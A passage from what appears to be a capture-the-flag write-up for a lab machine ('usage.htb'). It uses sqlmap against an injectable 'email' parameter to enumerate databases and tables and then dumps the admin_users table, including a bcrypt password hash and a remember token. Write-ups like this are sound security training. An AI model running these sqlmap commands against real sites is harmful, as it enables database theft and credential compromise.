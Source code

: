 ```bash
[06:57:18] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[06:57:18] [INFO] retrieved: 3
[06:57:25] [INFO] retrieved: information_schema
[06:59:39] [INFO] retrieved: performance_schema
[07:02:02] [INFO] retrieved: usage_blog
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```


The only database here which is likely to contain interesting data would be "usage_blog". Next the tables in usage_blog were obtained:


```bash
$ sqlmap -r request.txt -p email --risk=3 --level=5 -D usage_blog --tables
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
```


The admin_users table will be dumped as it would likely contain the credentials needed to log into the page in admin.usage.htb:


```bash
$ sqlmap -r request.txt -p email --risk=3 --level=5 -D usage_blog -T admin_users --dump
Database: usage_blog
Table: admin_users
[1 entry]
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2024-07-15 11:14:21 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
```
